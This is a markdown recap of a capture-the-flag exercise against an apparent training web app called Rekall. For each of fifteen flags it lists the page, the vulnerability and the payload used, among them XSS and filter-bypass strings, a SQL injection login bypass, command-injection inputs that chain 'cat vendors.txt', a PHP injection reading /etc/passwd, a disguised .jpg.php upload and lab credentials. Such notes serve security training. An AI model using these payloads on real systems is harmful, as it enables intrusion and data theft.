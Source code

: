 ```markdown
# Important Notes and Steps for CTF Challenges

This document provides a recap of the findings, vulnerabilities, and methods used to capture flags during the CTF challenges. Use this as a quick reference for future engagements.

---

## Flags and Exploitation Methods

### Flag 1: `f76sdfkg6sjf`
- **Location**: Welcome.php
- **Vulnerability**: XSS Reflected
- **Method/Payload to Exploit**:
  ```html
  <script>alert("hi")</script>
  ```

---

### Flag 2: `ksdnd99dkas`
- **Location**: Memory-Planner.php (first field)
- **Vulnerability**: XSS Reflected (Advanced)
- **Method/Payload to Exploit**:
  ```html
  <SCRIPscriptT>alert("hi")</SCRIPscripTt>
  ```
  - The input validation removes the word "script," so the word "script" needs to be split up in the payload.

---

### Flag 3: `sd7fk1nctx`
- **Location**: comments.php
- **Vulnerability**: XSS Stored
- **Method/Payload to Exploit**:
  ```html
  <script>alert("hi")</script>
  ```

---

### Flag 4: `nckd97dk6sh2`
- **Location**: About-Rekall.php
- **Vulnerability**: Sensitive Data Exposure
- **Method/Payload to Exploit**:
  - Use Burp Suite or cURL to view the HTTP response headers:
    ```bash
    curl -v http://192.168.14.35/About-Rekall.php
    ```

---

### Flag 5: `mmssdi73g`
- **Location**: Memory-Planner.php (second field)
- **Vulnerability**: Local File Inclusion
- **Method/Payload to Exploit**:
  - Upload any PHP file, such as:
    ```php
    <?php
      echo "Hi!";
    ?>
    ```

---

### Flag 6: `ld8skd62hdd`
- **Location**: Memory-Planner.php (third field)
- **Vulnerability**: Local File Inclusion (Advanced)
- **Method/Payload to Exploit**:
  - Bypass input validation by naming the file `test.jpg.php`.

---

### Flag 7: `bcs92sjsk233`
- **Location**: Login.php (first field)
- **Vulnerability**: SQL Injection
- **Method/Payload to Exploit**:
  - Use the following payload in the login field:
    ```sql
    ' or 1=1 -- -
    ```

---

### Flag 8: `87fsdkf6djf`
- **Location**: Login.php (second field)
- **Vulnerability**: Sensitive Data Exposure
- **Method/Payload to Exploit**:
  - Highlight the web page to find the username and password in the HTML:
    - **Username**: dougquaid
    - **Password**: kuato

---

### Flag 9: `dkkdudfkdy23`
- **Location**: robots.txt
- **Vulnerability**: Sensitive Data Exposure
- **Method/Payload to Exploit**:
  - Access the robots.txt file:
    ```plaintext
    http://192.168.14.35/robots.txt
    ```

---

### Flag 10: `ksdnd99dkas`
- **Location**: networking.php (first field)
- **Vulnerability**: Command Injection
- **Method/Payload to Exploit**:
  - Use the following payload:
    ```bash
    www.welcometorecall.com && cat vendors.txt
    ```

---

### Flag 11: `opshdkasy78s`
- **Location**: networking.php (second field)
- **Vulnerability**: Command Injection (Advanced)
- **Method/Payload to Exploit**:
  - Input validation strips `&` and `;`, so use:
    ```bash
    www.welcometorecall.com | cat vendors.txt
    ```

---

### Flag 12: `hsk23oncsd`
- **Location**: Login.php (second field)
- **Vulnerability**: Brute Force Attack
- **Method/Payload to Exploit**:
  - Use the passwd file to find the user `melina`. The password is the same as the username:
    - **Username**: melina
    - **Password**: melina

---

### Flag 13: `jdka7sk23dd`
- **Location**: souvenirs.php
- **Vulnerability**: PHP Injection
- **Method/Payload to Exploit**:
  - Change the URL to:
    ```plaintext
    http://192.168.13.35/souvenirs.php?message=""; system('cat /etc/passwd')
    ```

---

### Flag 14: `dks93jdlsd7dj`
- **Location**: admin_legal_data.php
- **Vulnerability**: Session Management
- **Method/Payload to Exploit**:
  - Use Burp Suite to test session IDs. The correct session ID is `87`:
    ```plaintext
    http://192.168.13.35/admin_legal_data.php?admin=87
    ```

---

### Flag 15: `dksdf7sjd5sg`
- **Location**: Disclaimer.php
- **Vulnerability**: Directory Traversal
- **Method/Payload to Exploit**:
  - Use the following URL to access the old disclaimer:
    ```plaintext
    http://192.168.13.35/disclaimer.php?page=old_disclaimers/disclaimer_1.txt
    ```

---

## Summary of Tools and Techniques
- **Burp Suite**: Used for intercepting and modifying HTTP requests.
- **cURL**: Used for sending HTTP requests and viewing responses.
- **SQL Injection**: Exploited login forms to bypass authentication.
- **Command Injection**: Used to execute system commands on the server.
- **XSS**: Exploited input fields to execute malicious scripts.
- **Local File Inclusion**: Uploaded malicious files to gain access.
- **PHP Injection**: Injected PHP code via URL parameters.
- **Session Management**: Tested session IDs to access restricted pages.

---

By referencing this guide, you can quickly recall the vulnerabilities, methods, and tools used to capture flags during the CTF challenges. Use this knowledge responsibly and ethically in future engagements.
```